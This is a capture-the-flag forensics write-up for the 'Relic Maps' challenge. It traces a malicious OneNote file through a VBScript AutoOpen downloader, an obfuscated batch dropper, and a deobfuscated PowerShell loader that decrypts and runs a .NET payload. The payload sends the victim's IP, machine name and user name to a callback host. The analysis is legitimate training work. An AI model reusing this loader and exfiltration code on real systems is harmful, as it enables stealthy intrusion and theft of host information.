 # Cyber Apocalypse 2023

## Relic Maps

> Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).
>
>  README Author: [D13David](https://github.com/D13David)
>

Tags: _forensics_

## Solution
For this challenge no files are provided, only the link in the hint. To make the site reachable the domain needs to be added to `/etc/hosts`. After doing so the file can be downloaded. Running `file` on the file only leads `relicmaps.one: data`.

Next up, `binwalk`, this indeed leads a few files.
```bash
$ binwalk --dd ".*" relicmaps.one

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
10388         0x2894          PNG image, 1422 x 900, 8-bit/color RGBA, non-interlaced
10924         0x2AAC          Zlib compressed data, best compression
47215         0xB86F          HTML document header
48865         0xBEE1          HTML document footer
50084         0xC3A4          PNG image, 32 x 32, 8-bit/color RGBA, non-interlaced
50636         0xC5CC          PNG image, 440 x 66, 8-bit/color RGB, non-interlaced
50727         0xC627          Zlib compressed data, compressed
```

Most notably the HTML document. It has some malicious VBScript in it that seems to download more files.

```VB
// snip...
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -Out>
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFi>
End Sub
// snip...
```

 Fetching `topsecret-maps.one` seems like a dead end, but `windows.bat` is interesting:

```bash
@echo off
set "eFlP=set "
%eFlP%"ualBOGvshk=ws"
%eFlP%"PxzdwcSExs= /"
%eFlP%"ndjtYQuanY=po"
%eFlP%"cHFmSnCqnE=Wi"
%eFlP%"CJnGNBkyYp=co"
%eFlP%"jaXcJXQMrV=rS"
...
:: SEWD/RSJz4q93dq1c+u3tVcKPbLfn1fTrwl01pkHX3+NzcJ42N+ZgqbF+h+S76xsuroW3DDJ50IxTV/PbQICDVPjPCV3DYvCc244F7AFWphPY3kRy+618kpRSK2jW9RRcOnj8dOuDyeLwHfnBbkGgLE4KoSttWBplznkmb1l50KEFUavXv9ScKbGilo9+85NRKfafzpZjkMhwaCuzbuGZ1+5s9CdUwvo3znUpgmPX7S8K4+uS3SvQNh5iPNBdZHmyfZ9SbSATnsXlP757ockUsZTEdltSce4ZWF1779G6RjtKJcK4yrHGpRIZFYJ3pLosmm7d+SewKQu1vGJwcdLYuHOkdm5mglTyp20x7rDNCxobvCug4Smyrbs8XgS3R4jHMeUl7gdbyV/eTu0bQAMJnIql2pEU/dW0krE90nlgr3tbtitxw3p5nUP9hRYZLLMPOwJ12yNENS7Ics1ciqYh78ZWJiotAd4DEmAjr8zU4U...
...
%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%
cls
%dzPrbmmccE%%xQseEVnPet%
%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%E
```

This obviously is obfuscated code, to make things more clear we need to deobfuscate the whole thing. Luckily the obfuscation can be easily reverted by replacing the random string constants with what they are set to. While doing this by hand is cumbersome we can quickly write a script
```python
with open("data.txt", "r") as file:
    lines = file.readlines()

d = {}
for line in lines:
    parts = line.split("=", 1)
    d[parts[0]] = parts[1].rstrip("\n")

print(d)

code1 = """%CJnGNBkyYp%%UBndSz..."

for x, y in d.items():
    code1 = code1.replace("%"+x+"%", y)

print(code1)
```

The data provided is from the batch script, but roughly prepared for parsing

```
ualBOGvshk=ws
PxzdwcSExs= /
ndjtYQuanY=po
cHFmSnCqnE=Wi
CJnGNBkyYp=co
jaXcJXQMrV=rS
nwIWiBzpbz=:\
xprVJLooVF=Po
tzMKflzfvX=0\
VCWZpprcdE=1.
XzrrbwrpmM=\v
BFTOQBPCju=st
WmUoySsDby=he
tHJYExMHlP=rs
JPfTcZlwxJ=do
VxroDYJQKR=y 
UBndSzFkbH=py
KXASGLJNCX=ll
vlwWETKcZH=em
OOOxFGwzUd=e
NCtxqhhPqI=32
GOPdPuwuLd=\W
XUpMhOyyHB=ex
cIqyYRJWbQ=we
```

After cleaning the result up a bit, we end up with an readable version of the script:

```PowerShell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine)

foreach ($YiLGW in $eIfqq) { 
	if ($YiLGW.StartsWith(':: ')) {  
		$VuGcO = $YiLGW.Substring(3)
 		break
 	}
}

$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')
$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

While some obfuscation remains (reversed function names) the script is well understandable. It basically copies powershell to the local folder and renames the exe to match the scripts name.

```PowerSHell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
```

After that the script reads itself and scans for a line that starts with ':: '. This is the encrypted payload.

```PowerSHell
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine)

foreach ($YiLGW in $eIfqq) { 
	if ($YiLGW.StartsWith(':: ')) {  
		$VuGcO = $YiLGW.Substring(3)
 		break
 	}
}
```

Then the payload gets decrypted and decompressed. The `key` and `iv` for AES decryption is provided as base64 decoded string. In the last step an assembly instance is created and invoked. 

If PowerShell is at hand we can extract the payload with the script (after removing the invocation of the payload of course). Otherwise a small python script can do the same thing:

```python
import base64
from Crypto.Cipher import AES
import gzip

with open("payload") as file:
    lines = file.readlines()

key = base64.b64decode("0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=")
iv = base64.b64decode("2hn/J717js1MwdbbqMn7Lw==")
payload = base64.b64decode(lines[0])

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(payload)
decompressed = gzip.decompress(payload)

with open("payload.decrypted", "wb") as out:
    out.write(decompressed)
```

Checking the extracted payload with `file` and indeed it's a .NET executable.
```bash
$ file payload
payload: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

This can quickly be decompiled with ILSpy.
```C#
private static void Main(string[] args)
{
	IPAddress iPAddress = Dns.GetHostAddresses(Dns.GetHostName()).FirstOrDefault((IPAddress ip) => ip.AddressFamily == AddressFamily.InterNetwork);
	string machineName = Environment.MachineName;
	string userName = Environment.UserName;
	DateTime now = DateTime.Now;
	string text = "HTB{0neN0Te?_iT'5_4_tr4P!}";
	string s = $"i={iPAddress}&n={machineName}&u={userName}&t={now}&f={text}";
	Aes aes = Aes.Create("AES");
	aes.Mode = CipherMode.CBC;
	aes.Key = Convert.FromBase64String("B63PbsPUm3dMyO03Cc2lYNT2oUNbzIHBNc5LM5Epp6I=");
	aes.IV = Convert.FromBase64String("dgB58uwgaohVelj4Xhs7RQ==");
	aes.Padding = PaddingMode.PKCS7;
	ICryptoTransform cryptoTransform = aes.CreateEncryptor();
	byte[] bytes = Encoding.UTF8.GetBytes(s);
	string text2 = Convert.ToBase64String(cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length));
	Console.WriteLine(text2);
	HttpClient httpClient = new HttpClient();
	HttpRequestMessage httpRequestMessage = new HttpRequestMessage
	{
		RequestUri = new Uri("http://relicmaps.htb/callback"),
		Method = HttpMethod.Post,
		Content = new StringContent(text2, Encoding.UTF8, "application/json")
	};
	Console.WriteLine(httpRequestMessage);
	HttpResponseMessage result = httpClient.SendAsync(httpRequestMessage).Result;
	Console.WriteLine(result.StatusCode);
	Console.WriteLine(result.Content.ReadAsStringAsync().Result);
}
```

Reading through that it seems invoking the script would have called back to relicmaps.htb with some user information. Appart from that the flag is ready for capture `HTB{0neN0Te?_iT'5_4_tr4P!}`